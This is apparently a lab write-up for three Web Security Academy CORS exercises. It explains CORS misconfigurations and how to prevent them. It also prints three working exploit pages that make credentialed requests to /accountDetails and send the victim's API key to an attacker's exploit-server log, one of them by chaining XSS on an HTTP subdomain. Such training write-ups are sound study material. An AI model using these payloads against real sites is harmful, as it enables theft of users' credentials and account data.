# What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser mechanism that enables controlled access to resources located outside of a given domain. It extends the same-origin policy (SOP), which by default prevents JavaScript from reading responses from a different origin. CORS relaxes this restriction through HTTP response headers that define which origins are trusted and what kind of access is permitted.

The two most relevant headers are `Access-Control-Allow-Origin`, which specifies the permitted origin, and `Access-Control-Allow-Credentials`, which controls whether the browser includes cookies in cross-origin requests. When a server sets `Access-Control-Allow-Credentials: true` and allows a specific origin, that origin can make authenticated cross-origin requests and read the response.

# How are CORS vulnerabilities exploited?

A CORS misconfiguration allows an attacker-controlled page to make credentialed requests to a vulnerable origin and read the response. Common misconfigurations include:

- **Reflected origin:** the server echoes back whatever value is in the `Origin` header without validating it. Combined with `Access-Control-Allow-Credentials: true`, any website can read authenticated responses.
- **Null origin whitelisted:** some servers allow the `null` origin value. A sandboxed iframe loaded via a `data:` URI produces a null origin, so an attacker can use it to bypass origin checks.
- **Trusted insecure subdomains:** if the server trusts all subdomains regardless of protocol, an XSS vulnerability on an HTTP subdomain can be used to send a cross-origin request that the server accepts as coming from a trusted origin.

# How to prevent CORS vulnerabilities?

- Maintain an explicit allowlist of trusted origins and validate the `Origin` header against it; never reflect it back directly.
- Never whitelist the `null` origin.
- Only trust origins over HTTPS; do not allow HTTP subdomains when the main application uses HTTPS.
- Do not use the wildcard `*` alongside `Access-Control-Allow-Credentials: true`.

# 1. CORS vulnerability with basic origin reflection

The `/accountDetails` endpoint returns the user's API key and sets `Access-Control-Allow-Credentials: true`. When tested with an arbitrary `Origin` header the server reflects it back in `Access-Control-Allow-Origin`, meaning any origin can make credentialed requests and read the response.

- Log in with `wiener:peter` and navigate to the account page, which shows the API key.




- The browser sends a GET request to `/accountDetails` with the session cookie; the response includes `Access-Control-Allow-Credentials: true`.




- Sending `Origin: random.com` with the same request causes the server to respond with `Access-Control-Allow-Origin: random.com`, confirming that any origin is reflected.



- The exploit page is served from the attack server, fetches `/accountDetails` with credentials included, and forwards the returned API key to the attacker's log endpoint.



**Exploit (html/1.html):**
```html
<html>
  <body>
    <h1>Hello</h1>
    <script>
      fetch('https://0acc006a046168488151761000c80047.web-security-academy.net/accountDetails', {
        method: 'GET',
        credentials: 'include'
      })
      .then(response => {
        return response.json();
      })
      .then(body => {
        fetch("/logs?res=" + body.apikey);
      })
    </script>
  </body>
</html>
```

# 2. CORS vulnerability with trusted null origin

The `/accountDetails` endpoint does not reflect arbitrary origins, but it does allow the `null` origin value. The `null` origin is generated by the browser for documents loaded inside a sandboxed iframe via the `data:` URI scheme, because the sandboxed context has no real origin.

- The session cookie and `Access-Control-Allow-Credentials: true` are present as in the previous lab.




- Sending `Origin: random.com` is not reflected; the header is absent from the response.



- Sending `Origin: null` causes the server to respond with `Access-Control-Allow-Origin: null`.



- The exploit wraps the fetch inside a sandboxed iframe with `src="data:text/html,..."`. The browser assigns the iframe a null origin, the server allows it, and the API key is returned and exfiltrated.



**Exploit (html/2.html):**
```html
<html>
  <body>
    <h1>Hello</h1>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      fetch('https://0a2700a303459e7a8283528a00b300cf.web-security-academy.net/accountDetails', {
        method: 'GET',
        credentials: 'include'
      })
      .then(response => {
        return response.json();
      })
      .then(body => {
        location = 'https://exploit-0aa4007803249e8b823b51820119006d.exploit-server.net/log?key=' + body.apikey;
      })
      </script>"></iframe>
  </body>
</html>
```

# 3. CORS vulnerability with trusted insecure protocols

The `/accountDetails` endpoint trusts requests from subdomains of the main application. A separate stock-check page is served over plain HTTP at `http://stock.<lab-id>.web-security-academy.net` and the `productId` query parameter is vulnerable to reflected XSS. The attack chains the XSS on the HTTP subdomain with the permissive CORS policy to steal the API key.

- The server reflects subdomain origins, including those over HTTP.



- The stock page renders the `productId` parameter without sanitization, allowing script injection.




- The exploit page redirects the browser to the stock subdomain with a full script injected into `productId`. The injected script makes a credentialed fetch to `/accountDetails` on the main application and exfiltrates the API key to the attacker's log server. Because the request originates from `http://stock.<lab-id>.web-security-academy.net` (a trusted subdomain), the CORS policy allows it and returns the response.



**Exploit (html/3.html):**
```html
<html>
  <body>
    <h1>Hello</h1>
    <script>
      let script = `\x3Cscript>
        fetch('https://0a5700430450cc4a806d441f00d8008d.web-security-academy.net/accountDetails', {
          method: 'GET',
          credentials: 'include'
        })
        .then(response => {
          return response.json();
        })
        .then(body => {
          fetch("https://exploit-0acc005e04f6cc42809043f2018000dd.exploit-server.net/logs?res=" + body.apikey);
        })
      \x3C/script>`
      location = "http://stock.0a5700430450cc4a806d441f00d8008d.web-security-academy.net/?productId="
        + encodeURIComponent(script)
        + "&storeId=1"
    </script>
  </body>
</html>
```
